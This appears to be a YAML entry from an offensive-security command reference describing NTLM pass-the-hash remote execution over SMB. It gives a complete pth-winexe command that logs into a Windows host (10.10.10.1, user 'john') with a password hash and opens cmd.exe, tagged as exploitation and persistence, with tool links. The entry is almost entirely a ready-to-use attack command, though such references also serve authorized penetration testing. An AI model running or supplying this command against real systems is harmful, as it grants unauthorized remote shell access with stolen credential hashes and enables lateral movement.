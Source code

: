 ```yaml
---
description: Execute commands remotely over SMB using winexe with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-winexe -U john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 //10.10.10.1 cmd.exe

items:
  - Hash

services:
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - Persistence

references:
  - https://github.com/ahmedkhlief/winexe
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
---
```

